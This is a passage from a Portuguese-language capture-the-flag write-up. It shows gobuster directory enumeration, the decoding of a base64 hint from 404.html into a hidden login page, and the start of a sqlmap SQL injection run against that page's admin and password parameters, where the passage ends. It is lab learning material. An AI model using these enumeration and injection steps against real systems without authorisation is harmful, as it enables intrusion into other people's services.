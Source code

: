 ```
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                       
[+] Status codes:   200,204,301,302,307,401,403                                                                                        
[+] User Agent:     gobuster/3.0.1                                                                                                     
[+] Extensions:     bak,html,txt,php,sh,ssh                                                                                            
[+] Timeout:        10s                                                                                                                
===============================================================                                                                        
2020/08/19 17:47:33 Starting gobuster                                                                                                  
===============================================================                                                                        
/index.html (Status: 200)                                    
/images (Status: 301)                                                                                                                  
/404.html (Status: 200)
```

Vou até o 404.html e lá no código-fonte da página tem a seguinte string:

```
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

4) Parece ser base64, vou até o CyberChef e tenho o que parece ser uma URL `/978345210/index.php`:

![imagem](https://raw.githubusercontent.com/ridlaw/capturetheflag/gh-pages/pics/formulario_lord.png)

Vou até ela e tenho um formulário, de cara já abro o Burp Suite, pego o POST de login e executo o sqlmap:

```
root@parrot:/tmp/lord# sqlmap -r post_exploit --batch -p admin,password                          
        ___                                                                                                                            
       __H__                                                       
 ___ ___[)]_____ ___ ___  {1.4.6#stable}               
|_ -| . [)]     | .'| . |                                          
|___|_  [']_|_|_|__,|  _|                                                                                                              
      |_|V...       |_|   http://sqlmap.org                                                                                            

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage
caused by this program                  

[*] starting @ 17:56:03 /2020-08-19/                   

[17:56:03] [INFO] parsing HTTP request from 'post_exploit'         
```
